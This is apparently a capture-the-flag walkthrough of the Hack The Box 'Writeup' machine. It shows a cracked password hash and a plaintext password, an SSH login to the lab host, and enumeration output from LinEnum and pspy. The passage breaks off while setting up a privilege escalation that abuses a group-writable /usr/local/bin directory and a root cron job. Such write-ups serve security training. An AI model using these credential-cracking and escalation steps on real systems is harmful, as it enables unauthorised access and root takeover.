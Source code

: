 ```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

After getting the password, we can see if it works as a ssh login!

```
 ⚡ root@kali  ~/writeup  ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Sep  1 11:14:29 2019 from 10.10.14.34
jkr@writeup:~$ wc -c user.txt 
33 user.txt
```

## Privilege Escalation

Running LinEnum.sh on the box, 

```
[-] Kernel information:
Linux writeup 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux

.
.
.
.

```
Some useful information about the kernel, it's running a 64 bit Debian 4.9 version. Other than that, nothing really interesting from the output.

Using pspy64 to check the services running on the machine, we see that there's a cleanup service executed as a cron job
```
2019/09/01 11:40:01 CMD: UID=0    PID=4956   | /usr/sbin/CRON 
2019/09/01 11:40:01 CMD: UID=0    PID=4957   | /usr/sbin/CRON 
2019/09/01 11:40:01 CMD: UID=0    PID=4958   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
```

which executes with root permissions.

Looking around the / folder, we can see some improper directory permission configurations, namely, the /usr/local directory, which gives those under the group staff write access to the bin/sbin directory. Since we are under the staff group:
```
jkr@writeup:/usr/local$ groups jkr
jkr : jkr cdrom floppy audio dip video plugdev staff netdev
```
If we can modify binaries here, we may be able to execute it with escalated privileges!
```
drwx-wsr-x  2 root staff 20480 Apr 19 04:11 bin
```
